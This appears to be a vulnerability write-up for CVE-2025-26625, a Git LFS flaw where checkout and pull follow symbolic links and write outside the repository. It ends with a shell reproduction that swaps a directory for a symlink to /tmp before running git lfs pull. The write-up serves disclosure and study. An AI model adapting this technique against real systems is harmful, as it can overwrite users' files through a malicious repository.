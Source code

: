 # CVE-2025-26625: Git LFS Vulnerability Analysis and Mitigation
<img width="401" height="737" alt="image" src="https://github.com/user-attachments/assets/078b3370-fe30-4ac2-849b-956354fe12f0" />

## Overview

**CVE-2025-26625** is a vulnerability affecting **Git LFS (Git Large File Storage)** versions **0.5.2 through 3.7.0**, where the commands  
`git lfs checkout` and `git lfs pull` fail to properly validate symbolic links before writing to files in the working tree.

Discovered and disclosed on **October 17, 2025**, this issue impacts all Git LFS installations released since version 0.5.2.  
It was documented in both the **GitHub Security Advisory** and the **National Vulnerability Database (NVD)**.

---

## Technical Details

The vulnerability arises from **improper link resolution before file access**, classified under **[CWE-59: Improper Link Resolution Before File Access ('Link Following')](https://cwe.mitre.org/data/definitions/59.html)**.

When Git LFS populates a repository’s working tree with large file objects, certain commands may inadvertently **follow existing symbolic or hard links**.  
If those links point **outside the repository’s working tree**, the LFS process may write data to unintended locations on the filesystem — potentially allowing a malicious repository to modify arbitrary files accessible to the user.

**Affected Commands:**
- `git lfs checkout`
- `git lfs pull`
---

```
# Machine A
mkdir lfs-remote-demo && cd lfs-remote-demo
git init
git lfs install
git lfs track "*.bin"
mkdir data
printf "REAL CONTENT\n" > data/file.bin
git add .gitattributes data/file.bin
git commit -m "Add LFS file"


# Machine B
git clone <the-remote-url> lfs-attack-demo
cd lfs-attack-demo

# At this point git has created "data" (a directory) and a pointer file or placeholder.
# Now remove the directory and replace it with a symlink to /tmp (or another safe path)
rm -rf data
ln -s /tmp data

# Now run git lfs pull
git lfs pull

```

